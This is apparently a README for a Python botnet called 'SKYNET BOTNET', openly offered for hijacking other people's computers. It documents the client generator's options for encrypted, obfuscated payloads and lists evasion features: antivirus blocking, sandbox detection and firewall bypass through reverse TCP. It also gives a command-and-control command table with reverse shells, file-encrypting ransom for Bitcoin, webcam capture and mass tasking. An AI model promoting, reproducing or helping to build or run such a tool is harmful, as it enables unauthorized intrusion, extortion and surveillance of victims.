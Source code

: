 # SKYNET BOTNET
# ![](https://repository-images.githubusercontent.com/721243848/8ef413f2-5116-47de-89fb-0cc3cea94776)

  Build Your Own Botnet Project Build For People Who Wanna Hijack Peoples Computers And Control Them With Over 300 Features!

## CLIENT

Client Generator (Build Your Own Botnet)

usage: client.py [-h] [-v] [--name NAME] [--icon ICON] [--pastebin API]
                 [--encrypt] [--obfuscate] [--compress] [--freeze]
                 host port [module [module ...]]

Generator (Build Your Own Botnet)

positional arguments:
  host            server IP address
  port            server port number
  module          module(s) to remotely import at run-time

optional arguments:
  -h, --help      show this help message and exit
  -v, --version   show program's version number and exit
  --name NAME     output file name
  --icon ICON     icon image file name
  --pastebin API  upload & host payload on pastebin
  --encrypt       encrypt payload and embed key in stager
  --compress      zip-compress into a self-executing python script
  --freeze        compile client into a standalone executable for the current host platform

Generate clients with the following features:

  - Zero Dependencies
        stager runs with just the python standard library

  - Remote Imports
        remotely import third-party packages from
        the server without downloading/installing them

   - In-Memory Execution Guidline
        clients never write anything to the disk,
        not even temporary files - zero IO system calls.
        remote imports allow code/scripts/modules to
        be dynamically loaded into memory and directly
        imported into the currently running process

   - Add Your Own Scripts
        every python script, module, and package in the
        `remote` directory is directl usable by every
        client at all times while the server is running

  - Unlimited Modules Without Bloating File Size
        use remote imports to add unlimited features without
        adding a single byte to the client's file size

  - Updatable
        client periodically checks the content available
        for remote import from the server, and will
        dynamically update its in-memory resources
        if anything has been added/removed

    - Platform Independent
        compatible with PyInstaller and package is authored
        in Python, a platform agnostic language

    - Bypass Firewall
        connects to server via outgoing connections
        (i.e. reverse TCP payloads) which most firewall
        filters allow by default k

    - Evade Antivirus
        blocks any spawning process
        with names of known antivirus products

    - Prevent Analysis
        main client payload encrypted with a random
        256-bit key and is only

    - Avoid Detection
        client will abort execution if a virtual machine
        or sandbox is detected

### SERVER

  Console-based command & control server with a streamlined user-interface for controlling clients
  with reverse TCP shells which provide direct terminal access to the client host machines, as well
  as handling session authentication & management, serving up any scripts/modules/packages requested
  by clients to remotely import them, issuing tasks assigned by the user to any/all clients, handling
  incoming completed tasks from clients

### COMMANDS

  set :
                'method': self.set,
                'usage': 'set <setting> [option=value]',
                'description': 'change the value of a setting'
  help :
                'method': self.help,
                'usage': 'help',
                'description': 'show usage help for server commands'
  exit :
                'method': self.quit,
                'usage': 'exit',
                'description': 'quit the server'
  debug :
                'method': self.debug,
                'usage': 'debug <code>',
                'description': 'run python code directly on server (debugging MUST be enabled)'
  query :
                'method': self.query,
                'usage': 'query <statement>',
                'description': 'query the SQLite database'
  options :
                'method': self.settings,
                'usage': 'options',
                'description': 'show currently configured settings'
  sessions :
                'method': self.session_list,
                'usage': 'sessions',
                'description': 'show active client sessions'
  clients :
                'method': self.session_list,
                'usage': 'clients',
                'description': 'show all clients that have joined the server'
  shell :
                'method': self.session_shell,
                'usage': 'shell <id>',
                'description': 'interact with a client with a reverse TCP shell through an active session'
  ransom :
                'method': self.session_ransom,
                'usage': 'ransom [id]',
                'description': 'encrypt client files & ransom encryption key for a Bitcoin payment'
  webcam :
                'method': self.session_webcam,
                'usage': 'webcam <mode>',
                'description': 'capture image/video from the webcam of a client device'
  kill :
                'method': self.session_remove'
                'usage': 'kill <id>',
                'description': 'end a session
  bg :
                'method': self.session_background,
                'usage': 'bg [id]',
                'description': 'background a session (default: the current session)'
  broadcast :
                'method': self.task_broadcast,
                'usage': 'broadcast <command>',
                'description': 'broadcast a task to all active sessions'
  results: 
                'method': self.task_list,
                'usage': 'results [id]',
                'description': 'display all completed task results for a client (default: all clients)'
  tasks : 
                'method': self.task_list,
                'usage': 'tasks [id]',
                'description': 'display all incomplete tasks for a client (default: all clients)'
